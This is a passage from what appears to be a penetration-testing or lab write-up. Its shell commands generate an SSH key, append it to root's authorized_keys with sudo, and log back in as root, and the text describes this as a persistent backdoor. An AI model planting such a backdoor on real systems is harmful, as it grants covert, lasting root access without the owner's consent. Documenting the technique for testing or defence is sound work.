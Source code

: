 ```bash
$ ssh-keygen -f ssh-user-key

# view the PUBLIC key generated
$ cat ssh-user-key.pub
ssh-rsa AAAA... user@host
```

_**2.2 Load the public key (reverse shell connection)**_

```bash
$ echo "ssh-rsa AAAA... user@host" | sudo tee -a /root/.ssh/authorized_keys > /dev/null
```

***

Now, we can SSH into the server as the `root` user by providing our private key:

```bash
$ ssh -i ssh-user-key root@host

root@host:~#
```

Assuming that the admin does not clean up the `.ssh/authorized_keys` file, we can access our backdoor with a root shell anytime as needed.

> NOTE: Yes, ofcourse I removed the backdoor access after I was done testing.

